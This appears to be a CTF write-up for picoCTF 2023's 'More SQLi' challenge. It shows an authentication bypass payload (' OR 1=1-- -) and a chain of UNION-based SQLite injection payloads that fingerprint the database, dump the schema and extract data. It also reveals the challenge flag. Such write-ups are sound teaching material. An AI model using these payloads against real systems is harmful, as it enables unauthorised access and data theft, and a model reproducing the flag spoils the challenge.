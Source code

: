 # More SQLi

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Author: Mubarak Mikail

Description

Can you find the flag on this website. Try to find the flag [here](http://saturn.picoctf.net:51199/).

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230316132020.png)

In here, we see there's a login page.

**Let's try to login!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230316132150.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230316132200.png)

**Oh! It returned something:**
```sql
SELECT id FROM users WHERE password = 'test' AND username = 'test'
```

**Whenever I deal with a login page, I always try SQL injection authentication bypass.**

**Armed with the above SQL query, we can try to bypass the authentication by sending the following payload:**
```sql
' OR 1=1-- -
```

- The `'` will escape the string, like `'test' injected'`.
- Then, the `OR 1=1` SQL statement will always evaluate to `True`, which means we can pass the `WHERE` clause's check.
- Finally, the `-- -` is to commented out the rest of the SQL query.

**Assume we're injecting it in the `username` parameter, the injected SQL query will become:**
```sql
SELECT id FROM users WHERE password = 'test' AND username = '' OR 1=1-- -'
```

However, if we're doing it in the `username` parameter, it won't pass the check.

**To do so, we have to inject our SQL statement in the `password` parameter:**
```sql
SELECT id FROM users WHERE password = '' OR 1=1-- -' AND username = 'test'
```

Let's do this!

**Payload in `password` parameter:**
```sql
' OR 1=1-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230316132928.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230316143208.png)

Nice! We successfully bypassed the authentication!!

After logged in, we can search some offices:

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230316143308.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230316143323.png)

Now, if the login function is vulnerable to SQL injection, there's a very high chance other function that's related to SQL is **vulnerable to SQL injection**.

## Exploitation

Armed with above information, we can try to inject SQL query in the search office function.

When I deal with SQL injection, I'll first try **Union-based SQL injection**.

In the "Welcome" page, it has 3 columns: `city`, `address`, `phone`. So, I'll assume there are 3 columns.

**Then, we can use `UNION` clause try to exploit it:**
```sql
' UNION ALL SELECT NULL,NULL,NULL-- -
```

**After some trial and error, I found that that function is vulnerable to UNION-based SQL injection:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230316210215.png)

Hmm... No error.

**Let's verify those columns are accepting string data type:** 
```sql
' UNION ALL SELECT 'string1','string2','string3'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230316210321.png)

Nice! We can confirm that the "Search Office" function is **vulnerable to Union-based SQL injection**!

Next, we need to find which DBMS (Database Management System) is the web server using.

**After some trial and error, I found that it's using SQLite:** 
```sql
' UNION ALL SELECT sqlite_version(),NULL,NULL-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230316210452.png)

Nice!

After that, we can start to enumerate and exfiltrate the database!!

**Listing all table and column names:** (From [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md))
```sql
' UNION SELECT sql,NULL,NULL FROM sqlite_master-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230316210729.png)

- Found table names: `hints`, `more_table`, `offices`, `users`

In table `more_table`, we can see that there's a `flag` column!!

**Let's get that column's records!**
```sql
' UNION SELECT id,flag,NULL FROM more_table-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230316211025.png)

We got the flag!

- **Flag: `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}`**

## Conclusion

What we've learned:

1. Authentication Bypass Via SQL Injection & Union-Based SQLite SQL Injection